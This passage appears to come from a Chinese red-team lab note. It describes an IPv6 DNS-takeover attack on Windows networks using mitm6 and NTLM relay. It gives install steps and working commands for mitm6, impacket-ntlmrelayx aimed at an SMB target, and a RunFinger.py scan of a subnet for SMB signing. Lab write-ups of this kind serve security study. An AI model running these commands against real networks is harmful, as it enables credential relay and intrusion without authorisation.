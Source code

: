 在 MS16-077 之后，通过 DHCP 和 DNS 协议还可以获取到 pac 文件。

DHCP 和 DNS 都有指定的服务器，不是通过广播包，而且 dhcp 服务器和 dns 服务器我们是不可控的，没法进行投毒。而从 Windows Vista 以来，所有的 Windows 系统（包括服务器版系统）都会启用 IPv6 网络，并且其优先级要高于 IPv4 网络。

DHCPv6 协议中，客户端通过向组播地址发送 Solicit 报文来定位 DHCPv6 服务器，组播地址 `[ff02::1:2]` 包括整个地址链路范围内的所有 DHCPv6 服务器和中继代理。DHCPv6 四步交互过程，客户端向 `[ff02::1:2]` 组播地址发送一个 Solicit 请求报文，DHCP 服务器或中继代理回应 Advertise 消息告知客户端。客户端选择优先级最高的服务器并发送 Request 信息请求分配地址或其他配置信息，最后服务器回复包含确认地址，委托前缀和配置（如可用的 DNS 或 NTP 服务器）的 Relay 消息。通俗点来说就是，在可以使用 ipv6 的情况(Windows Vista 以后默认开启), 攻击者能接收到其他机器的 dhcpv6 组播包的情况下，攻击者最后可以让受害者的 DNS 设置为攻击者的 IPv6 地址。

可以利用 Fox-IT 公开的工具进行攻击

**相关文章**
- [mitm6 - compromising IPv4 networks via IPv6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
    - [mitm6：通过IPv6攻破IPv4网络](https://www.anquanke.com/post/id/94689)

**mitm6**
- https://github.com/dirkjanm/mitm6
    ```bash
    pip install mitm6

    # 或
    git clone https://github.com/dirkjanm/mitm6.git
    cd mitm6
    pip install -r requirements.txt
    python setup.py install
    ```

```
mitm6 -d test.local
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/14.png)

```
impacket-ntlmrelayx -6 -wh test.local -t smb://192.168.141.129 -l ~/tmp/ -socks -debug
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/15.png)

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/16.png)

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/17.png)

---

## 利用

### signing

签名的原理参考笔记 [认证](../../../../Integrated/Windows/笔记/认证.md)

用 responder 工具包里面的 RunFinger.py 脚本扫描域内机器的签名的开放情况
```
cd /usr/share/responder/tools
python RunFinger.py -i 192.168.141.0/24
```
